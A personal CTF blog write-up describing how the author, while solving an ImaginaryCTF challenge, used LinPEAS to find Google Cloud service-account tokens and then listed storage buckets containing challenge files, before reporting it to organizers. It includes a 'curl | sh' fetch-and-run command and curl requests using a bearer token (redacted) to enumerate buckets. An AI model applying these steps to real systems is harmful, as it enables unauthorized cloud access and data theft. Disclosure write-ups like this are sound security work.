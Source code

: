 ```yaml
---
title: "How I (accidentally) hacked ImaginaryCTF infra"
date: 2023-07-23
description: "this is what i get for writing an instancer from scratch the day before the ctf" - Eth007
tags: [writeups, ctfs]
---
```


For this years ImaginaryCTF I played with my friends at `les amateurs`. We ended up placing 12th out of 880 teams competing! There were lots of super interesting challenges and I look forward to competing in next year.

# Background
Just for fun, I had decided to look at the challenge `misc/obscured`

{{< zoom-img src="img/chall.png" >}}

When we connect to the challenge it would have us complete a PoW that would then give us a box to SSH into. Once I realized I have no clue what I'm doing, I decided to run a powerful Linux enumartion script (very skid), LinPEAS ([github](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)). This tool does a multitude of checks specifically looking for ways to escalate privileges. Since this box had access to the internet, we could easily run the command to download and run the script.

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Running this script revealing some interesting information. Obviously it did reveal some information about the intended challenge (polkit) but what caught my eye the most was that the script detected this was running in Google Cloud. Once the script learned that, it did some extra enumeration to look for information related to GCP. It was able to find things like the project ID, project SSH keys, and lots more. The most interesting out of all of that was the access tokens for GCP service accounts.

{{< zoom-img src="img/service-accounts.png">}}

# GCP Enumeration

At first I was unsure if we could use this for anything, but after a bit of research I realized we can use the access tokens to make API requests about the GCP project. And looking at the scopes we had access to, I decided to look at the GCP storage to see if this is something worth reporting.

Using the [GCP Storage JSON API documentation](https://cloud.google.com/storage/docs/json_api/v1) as a reference, I crafted the following request to list the available buckets.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b?project=[REDACTED]' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

Running this command revealed two buckets. To list the contents of the buckets, we could make the following cURL request.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b/[BUCKET ID]/o' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

One of them would end up being empty, however the other bucket would contain some pretty sensitive information. Each one of the object IDs looked something like this

`[REDACTED URL]/containers/images/sha256:[sha256 hash]/[some num]`

Noticing this I assumed this bucket contained all of the docker containers used for ImaginaryCTF. To double check, I tried downloading one of the files. Not exactly sure what the file was since it didn't look like a docker image, however it **did** contain a flag. 

# Conclusion
Once we found this, I immediately dm'd one of the organizers telling him what I found and gave all the information he asked for. We ended up not using the flag we found (since you shouldn't do that) and the challenge went down for maintenance to get fixed.

Thank you to Eth007 for handling the situation very well and not DQ'ing our team for this! Once again, this was an amazing CTF and I had high hopes that next year this problem won't happen again!

# Funny Screenshot
{{< zoom-img src="img/funny.png" >}}
{{< zoom-img src="img/eth-dumb.png" >}}
{{< zoom-img src="img/lmao.png" >}}
